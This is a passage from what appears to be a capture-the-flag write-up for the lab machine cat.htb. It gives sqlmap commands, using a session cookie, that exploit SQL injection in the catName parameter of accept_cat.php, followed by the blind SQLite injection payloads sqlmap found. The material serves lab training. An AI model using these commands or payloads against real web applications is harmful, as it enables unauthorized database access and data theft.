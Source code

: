 ![Texto alternativo](/assets/cat/Screenshot%202025-02-03%20203735.jpg)

Now we are admin, therefore we can perform a `SQLI via SQLMap` to obtain more information with the cookie obtained.

### SQL INJECTION
---

```bash
sqlmap -u "http:cat.htb/accept_cat.php" data "catId=1&catName=catty" cookie="PHPSESSID=jce8bkemt9o56ut4ucipjbbov1" -p catName level=5 risk=3 dbms=SQLite
```

**IMP: Replace the cookie**

```bash
sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID=jce8bkemt9o56ut4ucipjbbov1" -p catName --level=5 --risk=3 
--dbms=SQLite
```

```bash
Parameter: catName (POST)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: catId=1&catName=catty'(SELECT CHAR(114,97,83,88) WHERE 5931=5931
AND 1212=1212)'
Type: time-based blind
Title: SQLite > 2.0 AND time-based blind (heavy query)
Payload: catId=1&catName=catty'(SELECT CHAR(69,77,83,120) WHERE 8467=8467
AND 6442=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))'
```
